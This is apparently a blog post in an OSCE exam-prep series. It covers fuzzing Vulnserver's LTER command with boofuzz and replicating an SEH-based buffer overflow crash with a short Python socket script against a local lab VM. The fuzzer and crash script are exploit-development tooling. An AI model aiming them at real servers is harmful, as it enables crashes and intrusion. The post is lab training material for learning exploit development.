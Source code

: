 ```yaml
---
layout: single
title: CTP/OSCE Prep -- 'LTER' SEH Based Overflow in Vulnserver
date: 2019-5-29
classes: wide
header:
  teaser: /assets/images/CTP/immunity.jpg
tags:
  - buffer overflow
  - Windows
  - x86
  - shellcoding
  - exploit development
  - assembly
  - python
  - OSCE
  - CTP
  - SEH
--- 
```

![](/assets/images/CTP/1920x1080_Wallpaper.jpg)

## Introduction

This series of posts will focus on the concepts I'm learning/practicing in preparation for [CTP/OSCE](https://www.offensive-security.com/information-security-training/cracking-the-perimeter/). In this series of posts, I plan on exploring:
+ fuzzing,
+ vanilla EIP overwrite,
+ SEH overwrite, and
+ egghunters.

Writing these entries will force me to become intimately familiar with these topics, and hopefully you can get something out of them as well! 

In this particular post, we will be approaching an overflow in the `LTER` parameter trying to utilize all the tricks we've learned thus far. 

If you have not already done so, please read some of the posts in the 'CTP/OSCE Prep' series as this post will be light on review! 

## Goals

For this post, our goal is to try to utilize all the skills we've gained thus far to exploit Vulnserver in a new way, finding a new vulnerable parameter.

## Fuzzing

I tried to go sequentially through the parameters and find one I could fuzz which would make the application crash but none of the first few parameters would actually crash the server. I then picked some at random and struck out there as well. After this excercise, I'm going to have to go back and check people's walkthroughs and see if there is a problem with my Fuzzing methodology and I'm missing vulnerable params. Finally, I fuzzed `LTER` and got the server to crash. Loading it up in Immunity it looked to be an SEH overwrite, we've prepared for this!

The final `boofuzz` script I used looked like this:
```python
#!/usr/bin/python

from boofuzz import *

host = '192.168.1.201'	#windows VM
port = 9999		#vulnserver port

def main():
	
	session = Session(target = Target(connection = SocketConnection(host, port, proto='tcp')))
	
	s_initialize("LTER")	#just giving our session a name, "LTER"

    	s_string("LTER", fuzzable = False)	#these strings are fuzzable by default, so here instead of blank, we specify 'false'
    	s_delim(" ", fuzzable = False)		#we don't want to fuzz the space between "LTER" and our arg
   	s_string("FUZZ")			#This value is arbitrary as we did not specify 'False' for fuzzable. Boofuzz will fuzz this string now
 
        session.connect(s_get("LTER"))		#having our 'session' variable connect following the guidelines we established in "LTER"
    	session.fuzz()				#calling this function actually performs the fuzzing

if __name__ == "__main__":
    main()
```

## The Crash!

![](/assets/images/CTP/LTERcrash.JPG)

The first things I noted in Immunity when the server crashed:
+ We are being prompted by Immunity to pass an exception to the program,
+ We have overwritten ECX and EBP, 
+ The stack shows us that `01B4F1F0` and `01B4F1F4` hold `"LTER /.../BBBB..."`

Where do we go from here? Well, we know that having control of the registers is great; however, since we're going to have to pass an exception to this program, and we don't have control of EIP, these registers will be `XOR` against themselves and zeroed out. So the registers are dead to us. 

We definitely want to use the feedback we got from the stack readout where we saw `"LTER /.../BBBB..."`, we will hardcode this into our exploit script. 

The next step we want to do is track down exactly how many bytes `boofuzz` sent and since we know we filled the registers with `B` values, it shouldn't be too hard to track down the exact payload the fuzzer sent. 

## Replicating the Crash

Examining the CLI output from `boofuzz`,

![](/assets/images/CTP/LTERboo.JPG)

We find that in our third payload we sent 5012 bytes and they were all `B` values prepended by `LTER /.../`. So let's hardcode this into our `exploit.py` and see if we can get the program to crash without the fuzzer. This is our exploit script at this point:
```python
#!/usr/bin/python

import socket
import os
import sys

host = "192.168.1.201"
port = 9999

buffer = "A" * 5012

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
s.send("LTER /.../" + buffer)
print s.recv(1024)
s.close()
```




## Big Thanks

To everyone who has published free intro-level 32 bit exploit dev material, I'm super appreciative. Truly mean it. 

